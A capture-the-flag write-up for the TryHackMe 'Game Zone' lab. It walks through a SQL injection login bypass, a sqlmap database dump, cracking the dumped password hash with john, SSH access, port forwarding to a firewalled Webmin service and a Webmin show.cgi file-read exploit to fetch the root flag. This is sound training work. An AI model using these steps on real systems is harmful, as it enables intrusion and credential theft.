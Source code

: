 # game Zone writeup
#pentest/tryhackme

Let’s try to login using our good old SQL Injection trick.

```
' OR 1=1 -- -
```

We are on `portal.php`, now what?

Since we know the site is vulnerable to SQL injection we might want to try to dump the database on our machine using `sqlmap`
Let’s go!

1. Search for something and capture that request using **burpsuite**.
2. Sabe the request as something like **request.txt** on our machine
3. Now let’s use `sqlmap`

```shell
$ sqlmap -r request.txt -dbms mysql --dump
...
[13:39:14] [INFO] table '`db`.users' dumped to CSV file '/home/kali/.sqlmap/output/10.10.244.212/dump/db/users.csv'
[13:39:14] [INFO] fetched data logged to text files under '/home/kali/.sqlmap/output/10.10.244.212'
```

Let’s investigate. :) 

```shell
kali@kali:~/exercises/game_zone$ cat ~/.sqlmap/output/10.10.244.212/dump/db/users.csv 
pwd,username
ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14,agent47
```

Let’s try to crack the password:

```shell
$ echo ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 > hash.txt
$ sudo $ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
...
videogamer124
...
```

Do you think they have ssh with `agent47` and password `videogamer124`? You bet!

```shell
$ ssh agent47@10.10.244.212
agent47@gamezone$ ls
user.txt
agent47@gamezone$ cat user.txt
649ac17b1480ac13ef1e4fa579dac95c
```

## SSH Tunneling

**Situation:** Suppose you are at work and you want to access PORT 3389 to have remote access to your computer at home, but your work has a firewall blocking access to this port. What to do?

We can use SSH to forward the port 3389 to another port that is not blocked! This is called SSH tunneling. How can we do that?

`ssh -L <new-port>:<computer-you-want-to-foward-to>:<port-that-is-blocked> <username>@<computer-you-want-to-foward-to>`
so 
`ssh -L 8181:<your-home-ip>:3389 <username>@<computer-you-want-to-foward-to>`

## Going on
Let’s search around the machine for open sockets

```shell
ss -tulpn
...
# port 10000 exists but is blocked by a firewall
```

let’s use the ssh port forwarding that we just learned about!

```shell
ssh -L 10000:localhost:10000 agent47@<machine-ip>
```

Now we can go to out browser and visit `localhost:10000`
After logging in with the credentials we have we discover two things.

1. The framework is called **webmin**
2. The version is 

So we can try searching for a knoew vulnerability:

```shell
kali@kali:~$ searchsploit webmin -w
------------------------------------------------------------------------------------------
 Exploit Title                                                                |  URL
------------------------------------------------------------------------------------------ 
...                                                      
Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)         | https://www.exploit-db.com/exploits/21851
...
```

Visiting https://www.exploit-db.com/exploits/21851 we learn that all we need to do to exploit this framework is to visit:
* localhost:10000/file/show.cgi/<any-file-path> as shown here https://www.americaninfosec.com/research/dossiers/AISG-12-001.pdf

**So we just do it:**
localhost:10000/file/show.cgi/root/root.txt
a4b945830144bdd71908d12d902adeee
